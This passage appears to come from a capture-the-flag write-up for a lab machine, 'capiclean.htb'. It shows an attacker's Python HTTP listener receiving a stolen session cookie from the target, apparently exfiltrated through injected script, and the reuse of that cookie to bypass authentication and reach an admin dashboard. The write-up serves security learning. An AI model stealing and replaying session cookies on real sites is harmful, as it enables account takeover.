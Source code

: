 ![](images/2024-04-06_15-09_quote_submit_burpsuite_cookie.png)

```c
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.43.86 - - [06/Apr/2024 15:17:34] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhA2MQ.nmIecDtr4qqL4NkEqlqguxYz6K0 HTTP/1.1" 200 -
```

| Name    | Value                                                                                         |
| ------- | --------------------------------------------------------------------------------------------- |
| session | eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhA2MQ.nmIecDtr4qqL4NkEqlqguxYz6K0 |

## Authentication Bypass

We set the `cookie` and accessed `/dashboard` which showed some kind of `administrative tasks` like `generate an invoice` or `generate a QR code`.

- [http://capiclean.htb/dashboard](http://capiclean.htb/dashboard)

![](images/2024-04-06_15-20_admin_dashboard.png)
